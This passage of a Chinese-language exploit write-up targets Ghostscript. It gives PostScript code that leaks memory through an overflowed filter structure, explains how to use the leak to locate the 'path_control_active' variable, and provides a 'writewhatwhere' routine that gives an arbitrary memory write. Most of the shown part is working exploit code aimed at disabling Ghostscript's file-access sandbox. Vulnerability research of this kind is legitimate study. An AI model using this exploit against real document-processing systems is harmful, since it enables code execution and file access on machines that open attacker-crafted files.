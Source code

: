 ```plain
    <4848484848484848> concatstrings % s->cursor->r->ptr
    leakMemoryFilter exch writestring
    leakMemoryFilter flushfile
    /leak leakBuffer 2176 8 getinterval def
    leak
    reverse
} def
```

[![](assets/1706771701-3d5c72b9f8249cd6dad6680325d09737.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129202535-81185e58-bea1-1.png)

通过这次泄漏，可以计算`path_control_active`变量的地址。泄漏和`path_control_active`变量之间的偏移量随着作为参数传递给 Ghostscript 的各种选项而变化，但如果传递相同的参数，则保持不变。

以类似的方式，可以通过用任意地址写写入后门地址来实现任意写入：

```plain
% what where -> -
/writewhatwhere {
    createOverflow
    <4343434343434343> concatstrings % s->templat
    <4444444444444444> concatstrings % s->memory
    <4545454545454545> concatstrings % s->report_error
    <4646464646464646> concatstrings % s->min_left
    1 1 80   {pop <47> concatstrings }  for   % s->error_string
    <4848484848484848> concatstrings % s->cursor->r->ptr 
    exch concatstrings  % (where) s->cursor->r->limit -  also update s->cursor->w->ptr
    <4444444444444444> concatstrings % s->cursor->w->limit
    <4545454545454545> concatstrings % s->cbuf.  
    /openWriteFilter 5000 string /NullEncode filter /BCPEncode filter def
    openWriteFilter exch writestring
    openWriteFilter flushfile
    openWriteFilter exch writestring
}def
```

